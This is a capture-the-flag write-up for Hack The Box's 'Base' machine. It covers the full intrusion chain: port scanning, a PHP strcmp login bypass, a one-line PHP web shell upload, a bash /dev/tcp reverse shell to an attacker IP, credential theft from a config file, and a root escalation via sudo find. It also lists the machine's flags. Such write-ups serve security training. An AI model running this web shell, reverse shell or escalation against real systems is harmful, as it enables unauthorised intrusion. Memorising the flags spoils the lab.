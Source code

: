 # Base

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 2

## Solution

#### 1. Which two TCP ports are open on the remote host?

```sh
$ nmap -A -T4 10.129.200.183
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-04 17:52 CET
Nmap scan report for 10.129.200.183
Host is up (0.092s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f6:5c:9b:38:ec:a7:5c:79:1c:1f:18:1c:52:46:f7:0b (RSA)
|   256 65:0c:f7:db:42:03:46:07:f2:12:89:fe:11:20:2c:53 (ECDSA)
|_  256 b8:65:cd:3f:34:d8:02:6a:e3:18:23:3e:77:dd:87:40 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome to Base
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.79 seconds
```

> 22,80

#### 2. What is the relative path on the webserver for the login page?

> /login/login.php

#### 3. How many files are present in the '/login' directory?

Let's open `http://10.129.200.183/login/`:

![login](./login.jpg)

> 3

#### 4. What is the file extension of a swap file?

> .swp

#### 5. Which PHP function is being used in the backend code to compare the user submitted username and password to the valid username and password?

From `login.php.swp`:

```php
if (strcmp($password, $_POST['password']) == 0) ...
``` 

Read about how to bypass it [here](https://rst.hashnode.dev/bypassing-php-strcmp).

We need to change our request from `username=&password=` to `username[]=&password[]=`.

> strcmp()

#### 6. In which directory are the uploaded files stored?

> /_uploaded

#### 7. Which user exists on the remote host with a home directory?

Let's create `shell.php` and upload it:

```php
<?php echo system($_REQUEST['cmd']);?>
```

![upload](./upload.jpg)

Once we upload, we get the message, that our file was uploaded, so let's visit it in `_uploaded` directory:

![dir](./dir.jpg)

So we can execute commands, like this `http://10.129.200.183/_uploaded/shell.php?cmd=whoami`.

Let's get reverse shell now:

First intercept the request with burp and change the request method to`POST`.

Then send the listener:

```sh
$ nc -l 9001
```

Once we send the request with our payload `/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.15/9001 0>&1'` we get the reverse shell:

![request](./request.jpg)

```sh
$ nc -l 9001
bash: cannot set terminal process group (1212): Inappropriate ioctl for device
bash: no job control in this shell
www-data@base:/var/www/html/_uploaded$ cat /etc/passwd
...
john:x:1000:1000:John:/home/john:/bin/bash
```

> john

#### 8. What is the password for the user present on the system?

```sh
www-data@base:/var/www/html/_uploaded$ cat /var/www/html/login/config.php
cat /var/www/html/login/config.php
<?php
$username = "admin";
$password = "thisisagoodpassword";
```

> thisisagoodpassword

*(We can now connect with ssh with `john:thisisagoodpassword`)*

#### 9. What is the full path to the command that the user john can run as user root on the remote host?

```sh
john@base:~$ sudo -l
[sudo] password for john: 
Matching Defaults entries for john on base:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find
```

> /usr/bin/find

#### 10. What action can the find command use to execute commands?

More about it on [GTFOBins](https://gtfobins.github.io/gtfobins/find/)

> exec

#### Submit user flag

```sh
john@base:~$ cat /home/john/user.txt
f54846c258f3b4612f78a819573d158e
```

#### Submit root flag

```sh
john@base:~$ sudo find . -exec /bin/sh \; -quit
$ id
uid=0(root) gid=0(root) groups=0(root)
$ cat /root/root.txt
51709519ea18ab37dd6fc58096bea949
```

## Final Flag

> `user`: f54846c258f3b4612f78a819573d158e
> `root`: 51709519ea18ab37dd6fc58096bea949

*Created by [bu19akov](https://github.com/bu19akov)*